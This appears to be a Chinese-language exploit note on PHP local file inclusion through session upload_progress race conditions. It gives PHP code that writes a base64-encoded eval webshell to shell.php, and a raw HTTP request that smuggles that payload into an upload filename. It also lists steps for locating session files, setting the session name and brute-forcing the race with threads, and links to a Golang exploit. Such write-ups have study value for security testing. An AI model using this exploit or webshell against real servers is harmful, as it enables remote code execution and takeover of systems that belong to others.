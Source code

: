 ```php
<?php
    var_dump(base64_encode('<?php eval($_REQUEST["code"]);?>'));
    file_put_contents('shell.php',base64_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbImNvZGUiXSk7Pz4='));
?>
```



```
POST /index.php?file=/var/lib/php/sessions/sess_shell HTTP/1.1
Host: 127.0.0.1
Hello: §1§
User-Agent: curl/7.68.0
Accept: */*
Cookie: PHPSESSID=shell
Content-Length: 420
Content-Type: multipart/form-data; boundary=------------------------0429a53d19de00c3
Connection: close

--------------------------0429a53d19de00c3
Content-Disposition: form-data; name="PHP_SESSI0N_UPLOAD_PROGRESS"

aaa
--------------------------0429a53d19de00c3
Content-Disposition: form-data; name="a"; filename="<?php file_put_contents('shell.php',base64_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbImNvZGUiXSk7Pz4='));phpinfo();?>"
Content-Type: application/octet-stream

1

--------------------------0429a53d19de00c3--
```

* 看 phpinfo ，知道 session 的位置 `/var/lib/php/sessions/`

*  `Cookie: PHPSESSID=shell` 设置 session 的名称为 `sess_shell`

* 文件上传前，放个值键对 ，键是 `PHP_SESSION_UPLOAD_PROGRESS`
* 改上传文件的 `name` 或者 `filename` 为 webshell
* 写webshell 的目录要注意可写

爆破，10个线程（远程也可能失败，受制于网络？）

### exp

#### 用 golang 写的 exp：

[session upload_progress 文件包含 Golang exp](https://github.com/1nhann/FileUpload_LFI_demo/blob/master/session_race_condition_lfi/exp/exp.go)


## [session upload_progress session未被清理 直接包含](https://github.com/1nhann/FileUpload_LFI_demo/tree/master/session_not_clean_lfi)
